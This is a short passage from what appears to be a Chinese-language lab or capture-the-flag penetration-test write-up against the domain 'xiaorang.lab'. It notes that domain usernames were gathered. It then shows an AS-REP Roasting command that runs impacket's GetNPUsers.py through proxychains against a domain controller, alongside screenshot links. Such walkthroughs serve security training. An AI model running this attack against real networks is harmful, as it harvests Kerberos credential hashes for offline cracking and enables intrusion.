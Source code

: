 [![](assets/1708919820-5834a8b6473150a91ba3c5deed7bfc16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024918-c2149db6-cb69-1.png)

这样我们可以得到所以的域用户名

AS-REP Roasting

```plain
proxychains python3 '/root/Desktop/impacket-master12/examples/GetNPUsers.py'  -dc-ip 172.22.61.17 -usersfile '/root/Desktop/users.txt'  xiaorang.lab/
```

[![](assets/1708919820-a49249f2f361f9faaad3687033fa229f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024922-c4d98868-cb69-1.png)
